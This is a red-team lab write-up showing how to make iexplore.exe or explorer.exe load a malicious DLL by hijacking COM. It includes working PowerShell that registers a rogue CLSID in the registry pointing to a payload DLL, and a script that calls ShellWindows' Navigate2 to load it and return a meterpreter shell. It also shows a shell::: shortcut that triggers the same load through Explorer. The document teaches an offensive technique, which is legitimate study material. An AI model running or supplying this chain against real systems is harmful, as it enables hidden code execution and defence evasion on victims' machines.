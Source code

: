 # Forcing Iexplore.exe to Load a Malicious DLL via COM Abuse

It's possible to force iexplore.exe \(or explorer.exe\) to load a malicious DLL and execute it - a technique which could be used when attempting to evade certain defenses.

The technique works as follows:

* An attacker creates a malicious DLL that he wants iexplore.exe to load and execute - I used a meterpreter payload in this lab
* On a victim system, the attacker defines a new COM server by creating the required keys and values in the registry. The previously created malicious DLL will be set to handle the COM client calls. In our case, the DLL will be _dumb_ and only perform one action - it will execute the meterpreter shellcode
* On a vitim system, the attacker uses an existing `ShellWindows` \(iexplore or explorer\) COM server `9BA05972-F6A8-11CF-A442-00A0C90A8F39`to call our malicious COM server by simply navigating to it
* Iexplore loads the malicious DLL 
* Attacker catches the meterpreter shell

This technique _requires_ iexplore.exe to be running on the target system :\)

See [https://labs.nettitude.com/blog/com-and-the-powerthief/](https://labs.nettitude.com/blog/com-and-the-powerthief/) by Rob Maslen for more details on why this technique works.

## Execution

Below is a powershell code that creates a new COM object with a randomly chosen CLSID `55555555-5555-5555-5555-555555555555` which registers our malicious DLL at `\\VBOXSVR\Experiments\evilm64.dll` to handle incoming calls from COM clients:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
# Code borrowed from https://github.com/nettitude/Invoke-PowerThIEf/blob/master/Invoke-PowerThIEf.ps1 by Rob Maslen
$CLSID = "55555555-5555-5555-5555-555555555555"
Remove-Item -Recurse -Force -Path "HKCU:\Software\Classes\CLSID\{$CLSID}" -ErrorAction SilentlyContinue

# path to the malicious DLL we want iexplore to load and execute
$payload = "\\VBOXSVR\Experiments\evilm64.dll"
New-Item -Path "HKCU:\Software\Classes\CLSID" -ErrorAction SilentlyContinue | Out-Null
New-Item -Path "HKCU:\Software\Classes\CLSID\{$CLSID}" | Out-Null
New-Item -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\InProcServer32" | Out-Null
New-Item -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\ShellFolder" | Out-Null
New-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\InProcServer32" -Name "(default)" -Value $Payload | Out-Null
New-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\InProcServer32" -Name "ThreadingModel" -Value "Apartment" | Out-Null
New-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\InProcServer32" -Name "LoadWithoutCOM" -Value "" | Out-Null
New-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\ShellFolder" -Name "HideOnDesktop" -Value "" | Out-Null
New-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\ShellFolder" -Name "Attributes" -Value 0xf090013d -PropertyType DWORD | Out-Null
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Once run, we can see that the new COM object got created successfully in the registry:

![](../../.gitbook/assets/annotation-2019-06-15-165723.png)

We are now ready to execute the payload with the below powershell. What happens here is:

* We're requesting a new instance of the `ShellWindows` `(9BA05972-F6A8-11CF-A442-00A0C90A8F39)` COM object, which actually applies to both explorer.exe and iexplore.exe, meaning with a handle to that object, we can interface with them using their exposed methods
* Specifically, we are interested in getting an instance of a COM object for iexplore.exe, because its COM server has a method `Navigate2(...)` exposed. The `Navigate2` allows us to programatically instruct the iexplore.exe to navigate to a URL. 
* We are asking iexplore to navigate to our newly created malicious CLSID pointing to our DLL instead of a URL:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
# force iexplore to load the malicious DLL and execute it
$shellWinGuid = [System.Guid]::Parse("{9BA05972-F6A8-11CF-A442-00A0C90A8F39}")
$typeShwin = [System.Type]::GetTypeFromCLSID($shellWinGuid)
$shwin = [System.Activator]::CreateInstance($typeShwin) | ? {$_.fullname -match 'iexplore'} | Select-Object -First 1
$shWin.Navigate2("shell:::{$CLSID}", 2048)
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Code execution in action, resulting in a meterpreter session:

![](../../.gitbook/assets/iecomhijacking.gif)

## Shell:::

As a fun bonus, it's possible to call our malicious COM object via explorer by issuing:  
`shell:::{55555555-5555-5555-5555-555555555555}`

![](../../.gitbook/assets/explorerhijack.gif)

...which of course forces the explorer.exe to load our malicious DLL:

![](../../.gitbook/assets/annotation-2019-06-15-174905.png)

## References

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/com/component-object-model--com--portal" %}

{% embed url="https://docs.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/platform-apis/aa752094\(v%3Dvs.85\)" %}

{% embed url="https://labs.nettitude.com/blog/com-and-the-powerthief/" %}



